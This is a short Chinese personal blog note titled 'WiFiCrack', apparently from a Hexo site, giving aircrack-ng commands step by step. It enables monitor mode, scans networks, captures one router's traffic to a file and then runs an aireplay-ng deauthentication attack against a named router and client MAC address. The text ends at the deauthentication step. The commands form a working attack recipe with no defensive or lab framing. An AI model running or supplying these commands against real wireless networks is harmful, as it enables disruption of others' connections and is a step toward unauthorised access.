 ```yaml
---
title: WiFiCrack
date: 2019-10-19 19:00:53
categories: 食用笔记
tags:
    - Aircrack-ng
    - Kali Linux
---
```


{% noteblock quote cyan %}

WiFiCrack 笔记。

{% endnoteblock %}

<!-- more -->

## 开启监听

```shell
airmon-ng start wlan0
```

## 扫描信号

```shell
airodump-ng wlan0mon
```

## 选定 Wi-Fi 监听

```shell
airodump-ng wlan0mon -c 11 --bssid BC:46:99:3D:66:D6 -w doc # -w指定生成的文件名 -c指定信道 --bssid指定路由器的MAC地址
```

## 攻击

```shell
aireplay-ng -0 50 -a E2:A5:3E:6B:F7:21 -c 44:C3:46:40:7E:5D   wlan0mon # -0指定发包的数量 -a指定路由器的MAC地址  -c指定连接的客户端的MAC地址
```
